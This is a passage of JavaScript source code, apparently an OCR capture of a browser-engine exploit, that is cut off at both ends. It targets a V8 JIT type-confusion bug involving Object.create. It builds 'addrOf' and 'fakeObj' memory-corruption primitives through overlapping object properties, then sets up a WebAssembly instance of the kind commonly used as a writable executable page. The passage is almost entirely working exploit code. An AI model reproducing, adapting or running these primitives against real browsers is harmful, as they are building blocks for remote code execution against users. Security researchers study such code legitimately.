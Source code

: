 ```plain
    obj.a;
    this.Object.create(obj);
    return obj.b${p1}.x1;
  }
`);


  let values = [];
  values[p1] = { x1: 1.1, x2: 1.2 };
  values[p2] = { y: obj };

  for (let i = 0; i < 10000; i++) {
    let res = vuln(getObj(values));
    if (res != 1.1) {
      print(`[+] Object Address: ${Int64.fromDouble(res).toString()}`);
      return res;
    }
  }
  throw "[!] AddrOf Primitive Failed"
}

function fakeObj(obj, addr) {
  eval(`
  function vuln(obj) {
    obj.a;
    this.Object.create(obj);
    let orig = obj.b${p1}.x2;
    obj.b${p1}.x2 = ${addr};
    return orig;
  }
`);

  let values = [];
  let o = { x1: 1.1, x2: 1.2 };
  values[p1] = o;
  values[p2] = obj;

  for (let i = 0; i < 10000; i++) {
    o.x2 = 1.2;
    let res = vuln(getObj(values));
    if (res != 1.2) {
      return res;
    }
  }
  throw "[!] fakeObj Primitive Failed"
}

var wasmCode = new Uint8Array([0, 97, 115, 109, 1, 0, 0, 0, 1, 133, 128, 128, 128, 0, 1, 96, 0, 1, 127, 3, 130, 128, 128, 128, 0, 1, 0, 4, 132, 128, 128, 128, 0, 1, 112, 0, 0, 5, 131, 128, 128, 128, 0, 1, 0, 1, 6, 129, 128, 128, 128, 0, 0, 7, 145, 128, 128, 128, 0, 2, 6, 109, 101, 109, 111, 114, 121, 2, 0, 4, 109, 97, 105, 110, 0, 0, 10, 138, 128, 128, 128, 0, 1, 132, 128, 128, 128, 0, 0, 65, 42, 11]);
var wasmModule = new WebAssembly.Module(wasmCode);
var wasmInstance = new WebAssembly.Instance(wasmModule, {});
var f = wasmInstance.exports.main;
print("[+] check whether vulnerability exists");
check_vul();
print("[+] Finding Overlapping Properties...");
findOverlapping();
print(`[+] Properties b${p1} and b${p2} overlap!`);
let mem = new ArrayBuffer(1024);
let dv = new DataView(mem);
give_me_a_clean_newspace();
```